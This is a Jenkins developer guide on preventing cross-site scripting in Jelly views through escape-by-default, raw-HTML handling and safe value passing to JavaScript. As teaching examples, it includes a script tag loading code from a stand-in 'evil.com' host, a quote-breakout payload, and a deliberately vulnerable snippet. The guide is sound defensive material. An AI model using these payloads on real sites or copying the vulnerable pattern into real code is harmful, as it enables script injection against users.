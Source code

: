 = Preventing Cross-Site Scripting in Jelly views

// Adapted from https://wiki.jenkins.io/display/JENKINS/Jelly+and+XSS+prevention

Cross-Site Scripting (XSS) is a web application vulnerability that allows users with the ability to control what gets shown to other users on a web page to run scripts in their browser.

Jenkins displays content written by users with different levels of access in many different areas, and the Jelly files typically contain placeholders like this:

[source, xml]
----
<h1>Project ${it.name}</h1>
----

If `it.name` evaluates to a string containing HTML tags, those will be placed verbatim into the output, for example:

[source, html]
----
<h1>Project <script src="https://evil.com/exploit-jenkins.js"></script>my java build</h1>
----

[NOTE]
In old versions of Jenkins, use of the `<st:out>` tag allowed escaping specific expressions.
This document discusses the much safer escape by default approach (below).

=== Escaping by Default

Since Jenkins 1.339, it is possible to instruct the Jelly processor to escape `+${...}+` expressions like the above by default.
To do that, place the following XML processing instruction in the first line of the Jelly document:

[source, xml]
----
<?jelly escape-by-default='true'?>
<!-- rest of the document here -->
----

Note that this only affects the use of `+${...}+` among PCDATA, and not in attribute values, so that Jelly tag invocations don't result in surprising behavior.

==== Keep Your Your Toolchain Updated

Since plugin POM 1.596, Jelly files are required to escape variables by default, and the build fails if such problems are found.
Therefore it is strongly recommended to use at least that version of the plugin parent POM to prevent accidental XSS vulnerabilities.

It's recommended to always use the newest available 2.x or newer plugin parent POM.
xref:plugin-development:updating-parent.adoc[Learn more.]

=== Escaping and Localized Expressions

Localized expressions of the form `+${%expression}+` are also affected by the above in the following ways:

1. The localized expression (read from a resource file) is not escaped, and allows inline HTML.
2. Any arguments to the expression are escaped.

This means the following works as expected (rendering the `a` tag), and still prevents XSS problems in the user-specified name:

.index.jelly
[source, xml]
----
<?jelly escape-by-default='true'?>
<p>${%blurb(it.displayName)}</p>
----

.index.properties
[source]
----
blurb=<a href="https://jenkins.io/">{0}</a>
----

=== Rendering Pre-Escaped Content

In rare cases, it might be necessary to render content that has previously been escaped or otherwise processed, without further escaping.
A common reason to do this is to support formatting using the jenkinsdoc:MarkupFormatter[markup formatter configured for the current Jenkins instance], with might support a {plugin}/antisamy-markup-formatter[safe subset of HTML], or other markup languages, like {plugin}/pegdown-formatter[Markdown].
In those cases, the security is controlled by the markup formatter.

To do that, use the `<j:out>` Jelly tag:

[source, xml]
----
<?jelly escape-by-default='true'?>
<j:jelly xmlns:j="jelly:core">
  <j:out value="${app.markupFormatter.translate(it.description)}"/>
</j:jelly>
----

To pass arguments to localized expressions without escaping them in escaped-by-default Jelly files, wrap them in a call to `Functions#rawHtml`:

[source, xml]
----
<?jelly escape-by-default='true'?>
<j:jelly xmlns:j="jelly:core">
  <h1>${%welcomeMessage(h.rawHtml(it.markupFormattedName)}</h1>
</j:jelly>
----

[WARNING]
If the source of the argument to `j:out` or `Functions#rawHtml` isn't completely trusted, these might result in an XSS vulnerability.

=== Passing values to JavaScript

==== The bad way

In a situation where you need to pass information to JavaScript, you might inject the value directly inside the script like in the following snippet. 

[source, xml]
----
<?jelly escape-by-default='true'?>
<j:jelly xmlns:j="jelly:core">
  <h1>Random title</h1>
  <div id="target-div"></div>

  <script>
     var textToInsert = "${variableFromJava}";
     document.querySelector('#target-div').innerText = textToInsert;
  </script>
</j:jelly>
----

In this case, if the `variableFromJava` comes from an unsafe source, it could be used to create a cross-site scripting (XSS) attack.
For example the following code will be executed: `";alert(123);"`. 
The JavaScript sent to the client will be:

[source, javascript]
----
var textToInsert = "";alert(123);"";
----

[NOTE]
Within the payload, we close the existing double quote, then execute our code and finally open a double quote to match the existing one.
That will result in a script without any format error.

==== The good way

If you need to pass a variable to your JavaScript, we strongly recommend to use this approach instead:

[source, xml]
----
<?jelly escape-by-default='true'?>
<j:jelly xmlns:j="jelly:core">
  <h1>Random title</h1>
  <div id="target-div" data-inserted-from-java="${variableFromJava}"></div>

  <script>
     var targetDiv = document.querySelector('#target-div');
     var textToInsert = targetDiv.getAttribute('data-inserted-from-java'); 
     // equivalent of: targetDiv.dataset.insertedFromJava
     targetDiv.innerText = textToInsert;
  </script>
</j:jelly>
----

// link: and the ++ are required due to the * symbol in the URL
The use of the `data-*` attributes allow the developer either to use `getAttribute` or the `dataset` property, 
for more information see the link:++https://developer.mozilla.org/en-US/docs/Web/HTML/Global_attributes#attr-data-*++[MDN documentation].

In this case you are taking advantage of the Jelly escape mechanism to ensure that the result is just a String. 
If we try to inject a `"`, it will be automatically converted to `&amp;quot;`.

In the previous (vulnerable) example, the injected code was inside a context of "code to be interpreted".
